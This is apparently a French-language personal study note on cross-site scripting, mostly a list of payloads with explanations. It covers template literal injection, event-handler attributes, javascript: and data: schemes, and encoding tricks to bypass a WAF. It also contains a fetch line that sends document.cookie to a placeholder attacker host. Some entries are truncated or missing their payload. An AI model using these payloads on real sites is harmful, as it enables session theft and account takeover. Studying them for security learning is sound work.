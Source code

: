 - **Tips pour les encodages (général) :**
    
    - Quand tu encode un payload, assure toi que ce sera le tout premier encodage qui sera fait. Ce que je veux dire c'est qu'il ne faut pas modifier une requête dejà url encodé pour la mettre sous html encode. Ca ne marchera pas. Au lieu de ca, il faut que ton payload soit dejà html encodé quand il est envoyé dans la requete.

- **Notre input est dans une JS template literals :**
    
    - Payload : `' ${alert(document.domain)}//`
    - Une JS template literal c'est  une chaine de caractère dans laquelle on peut mettre des expressions javascript. Elle est spécifié en utilisant backticks (\`\`). Quand on veut mettre une expression javascript comme une variable par exemple, on la met dans `${ ... }`. Donc quand on est dans un truc comme ca, c'est la porte ouverte à toute les fenetres. On a meme pas besoin d'échapper la JS template literal `

`fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );`

`123" onmouseover="alert(document.cookie);` : on ajoute un event en plus (un attribut) à l'élément html (une input en l'occurence) donc quand on a la souris dessus, on a l'alerte. (précision : le " avant alert c'est parce que juste après y'a un guillement car de base c'est entre deux guillemets qu'on fait tous ca. et étant donné que la valeur d'un attribut doit être entre "")

`javascript:alert(document.cookie);` : Imaginons que je dois créer un lien avec une input, si je met l'injection a la place, dans le code ca ressemblera a : `href="javascript:alert(document.cookie);"`

"javascript:" n'est pas le seul scheme d'url, c'est comme http:, tel: ou encore mailto: sauf que là, a la place de mettre un lien http bah on met du code javascript.

---

**Javascript hoisting** : A savoir : les fonctions et variables peuvent être déclaré APRES leur utilisation pas comme en c où on doit tous déclarer avant. Explication : toutes les variables et fonctions sont élevées en haut du script.

XSS js hoisting (note : les payload sont encodé en urlencode)

![Screenshot_2023-08-26_17_26_28.png](file:///home/wpkaliuser/.config/joplin-desktop/resources/6578743c802f78c120aef60c56a700b3.png?t=1704547535215)![Screenshot_2023-08-26_17_28_49.png](file:///home/wpkaliuser/.config/joplin-desktop/resources/a27582ba7f8b85e2ae4bb22151cd363b.png?t=1704547535227)

Par contre, ca ne fonctionne pas avec les classes.

---

`" autofocus onfocus=alert(document.domain) x="` : autofocus onfocus est un attribut qui vise une action et cette action sera la première faite quand on charge la page. x=" c'est juste pour completer avec le guillement de base.

XSS

: déclenche l'alerte dès qu'on clique n'importe où sur la page. Ca marche également avec onmouseover.

[a](# "#") : encoder le j de javascript en html encode sert a contourner le WAF.

`DaTa:text/html,alert(1)` : Cette injections xss utilise le scheme data avec deux lettre en maj pour potentiellement contourné le waf (peu probable car il n'est pas non plus débile). on spécifie que ce qui va suivre devra etre du code html. on met notre payload entre deux balises de js. Cette injections peut être envoyé dans un url ou tout autre source avec une sink qui gere des url comme des href ou des src. (pas img)
